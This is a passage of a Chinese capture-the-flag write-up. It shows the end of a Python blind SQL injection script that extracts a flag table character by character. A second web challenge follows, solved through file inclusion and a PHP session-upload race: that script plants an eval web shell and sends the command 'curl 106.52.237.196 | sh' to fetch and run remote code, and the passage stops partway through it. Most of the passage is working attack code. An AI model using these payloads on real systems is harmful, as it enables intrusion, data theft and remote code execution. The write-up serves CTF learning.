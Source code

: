 ``` python
    global aid
    aid = 0

    clear_list()
    add_ads('1')
    r = requests.post('http://120.79.141.85:47930/index.php', cookies=cookies)
    aid = int(re.search(RE, r.text).group(1))
    print(f'Initial ID: {aid}')

    # # 可爆破出列数
    # for i in range(1, 64):
    #     s = ','.join(["''"] * i)
    #     r = check_sql(f"(SELECT (SELECT {s})<(SELECT * FROM flag LIMIT 1))=true")
    #     print(i, r)

    content = ''
    for i in range(len(content) + 1, 128):
        s = CharBinarySearch()
        while not s.is_done():
            # r = check_sql(f"(SELECT HEX(SUBSTR(database(),{i},1))>=HEX({s.middle()}))")

            p = content + chr(s.middle())
            p = hex(int.from_bytes(p.encode(), 'big'))
            r = check_sql(f"(SELECT (SELECT * FROM flag) >= (SELECT 1, {p})) = 1")
            # r = check_sql(f"((SELECT HEX(SUBSTR(name,{i},1)) FROM users LIMIT 1 OFFSET 0)>=HEX({s.middle()}))")

            print(f'{i} {s.middle()} => {r}')
            s.update(r)
        content += chr(s.l)
        print(content)

if __name__ == '__main__':
    main()
```

### Web | in (138pt)
随便点点，发现http://119.23.247.96:45837/action.php?file=2.txt 可以读文件，尝试包含action.php自身，发现卡顿且无返回，说明包含方式很可能是include  
先看一眼服务器是apache，不能包含日志拿shell，于是考虑看看PHP的源码  
伪协议读到源码http://119.23.247.96:45837/action.php?file=php://filter/convert.base64-encode/resource=action.php  
开头看到session_start()大概率是session包含，偷懒直接用session竞争的板子拿shell
```python
import io
import requests
import threading

sessid = 'TGAO'
data = {"cmd": "system('curl 106.52.237.196 | sh');"}


def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post('http://119.23.247.96:45837/action.php',
                            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'},
                            files={'file': ('tgao.txt', f)}, cookies={'PHPSESSID': sessid})


def read(session):
    while True:
```